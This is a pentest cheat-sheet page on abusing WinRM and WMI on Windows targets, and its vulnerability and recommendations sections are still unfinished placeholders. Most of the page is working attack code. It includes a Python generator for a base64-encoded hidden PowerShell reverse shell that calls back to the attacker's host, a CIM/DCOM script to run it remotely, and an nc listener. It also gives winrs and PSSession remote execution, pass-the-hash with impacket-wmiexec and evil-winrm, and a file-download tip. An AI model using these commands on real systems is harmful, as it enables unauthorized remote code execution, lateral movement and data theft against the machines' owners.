 # WinRM Abuse
---

## Vulnerability

TODO: Describe the vulnerability here.

## Prerequisites

* Low-privileged account on your target.
* WinRM service enabled on your target (default port is 5985).

## Exploit

To launch an executable on the target machine, you can use `wmic`. For example, to start the Windows calculator.

```bash
# From Windows.
wmic /node:$target /user:'$username' /password:'$password' process call create "calc"

# From Kali.
wmic -U '$username'%'$password' //$target "process call create calc"
```

Unfortunately, `wmic` is considered deprecated on modern Windows versions. Nevertheless, here is a way to translate this attack with PowerShell. First, you will need a reverse shell written in PowerShell. To do so, use following Python script.

```python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("$lhost",$lport);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

Execute the Python script above and copy the output. You can now prepare the PowerShell script that will transmit and execute the payload on the target machine.

```powershell
$username = 'user';
$password = 'password';
$target = 'computer'
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName $target -Credential $credential -SessionOption $options 
$command = '<OUTPUT_OF_THE_PREVIOUS_PYTHON_SCRIPT>';
Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $command};
```

Don’t forget to listen on the appropriate port on the Kali.

```bash
nc -lnvp $lport
```

It’s also possible to execute commands remotely through WinRM.

```bash
# From a domain joined computer.
winrs -r:$target -u:$username -p:$password "$command"

# Also possible via PowerShell.
New-PSSession -ComputerName $target -Credential $credential
Enter-PSSession $id
```

Finally, this exploit is also possible directly from Kali with impacket or evil-winrm.

```bash
impacket-wmiexec -hashes :$nt $username@$target
impacket-wmiexec -hashes 00000000000000000000000000000000:$nt $username@$target

evil-winrm -i $target -u $username -H $nt
```

{: .important }
> You can leverage evil-winrm to remotely download file from your target by invoking `download $path` command.

## Recommendations

- [ ] TODO: List recommendations here.